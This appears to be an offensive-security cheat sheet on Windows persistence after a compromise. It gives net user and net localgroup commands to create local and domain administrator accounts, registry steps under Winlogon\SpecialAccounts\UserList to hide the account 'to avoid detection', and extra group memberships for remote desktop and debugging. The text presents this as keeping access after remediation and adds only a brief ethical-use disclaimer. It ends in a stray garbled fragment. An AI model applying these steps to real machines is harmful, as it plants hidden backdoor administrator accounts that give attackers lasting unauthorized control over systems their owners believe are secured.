 #### Creating a New User Account

To create a new user account on a Windows system, you can use the `net user` command. This command allows you to add, modify, or delete user accounts. To create a new user account with administrative privileges, follow these steps:

1. Open a command prompt with administrative privileges.
2. Use the following command to create a new user account:

```
net user <username> <password> /add
```

Replace `<username>` with the desired username for the new account and `<password>` with the desired password.

3. Use the following command to add the new user account to the local administrators group:

```
net localgroup administrators <username> /add
```

Replace `<username>` with the username of the new account.

#### Hiding the User Account

To maintain stealth and avoid detection, it is recommended to hide the newly created user account from the Windows login screen. This can be achieved by modifying the Windows registry. Follow these steps to hide the user account:

1. Open the Windows registry editor by running the `regedit` command.
2. Navigate to the following registry key:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList
```

3. Create a new DWORD value with the same name as the username of the user account you want to hide.
4. Set the value of the DWORD to `0` to hide the user account.

#### Conclusion

By creating a new user account with administrative privileges and hiding it from the Windows login screen, you can establish persistence on a compromised system. This allows you to regain access even after the initial compromise has been remediated. However, it is important to note that these techniques should only be used for ethical purposes, such as penetration testing or authorized system administration.
```bash
# Add domain user and put them in Domain Admins group
net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN

# Add local user and put them local Administrators group
net user username password /ADD
net localgroup Administrators username /ADD

# Add user to insteresting groups:
net localgroup "Remote Desktop Users" UserLoginName  /add
net localgroup "Debugger users" UserLoginName /add
net localgroup "Power users" UserLoginName /add
```
## mInDu'
